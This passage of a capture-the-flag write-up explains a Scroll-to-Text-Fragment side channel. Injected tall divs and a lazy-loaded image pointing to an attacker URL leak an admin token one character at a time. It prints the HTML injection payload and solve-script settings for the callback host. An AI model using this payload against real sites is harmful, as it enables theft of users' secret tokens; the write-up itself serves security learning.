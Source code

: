 ```html
<div class="min-vh-100">Min-height 100vh</div>
<div class="min-vh-100">Min-height 100vh</div>
<div class="min-vh-100">Min-height 100vh</div>
<img loading=lazy src="OUR_URL">
```

When we visit the generated verification page at `/verify?token=TOKEN`, we will get the following page:

```html
...

<div class="alert alert-success" role="alert">
   This token belongs to 
   <div class="min-vh-100">Min-height 100vh</div>
   <div class="min-vh-100">Min-height 100vh</div>
   <div class="min-vh-100">Min-height 100vh</div>
   <img loading=lazy src="OUR_URL">.
   If 
   <div class="min-vh-100">Min-height 100vh</div>
   <div class="min-vh-100">Min-height 100vh</div>
   <div class="min-vh-100">Min-height 100vh</div>
   <img loading=lazy src="OUR_URL"> asks for your token, you can give them this token: TISC{OUR_TOKEN}.
</div>

...
```

Opening the page with the `:~:text=TISC{` fragment, we can see that a scroll is induced, causing the lazy-loaded image to be fetched.

All we need to to is to automate the submission of different text fragments, and for each text fragment, detect if a callback is received. This allows us to bruteforce the admin token (the flag of the challenge) one character at a time.

Note: In order for the STTF to work on an incomplete flag, the special `TISC{x:y:z}` format is required, where each character is alphanumeric and a number occurs in at least every other character. The flag has been specially chosen with this in mind.

## Wrapping Up

The full exploit chain is automated in [solve.py](solve.py).

The following needs to be changed:

```python
CHALLENGE_HOST = 'localhost'    # Change this
CHALLENGE_PORT = 80             # Change this

# Change this - this is our URL that proxies to our local port 1337
OUR_URL = 'http://OUR_URL/LOADED'
```

`OUR_URL` is the URL (such as one provided by `ngrok`, or the player's own public IP) that maps to our local port 1337.
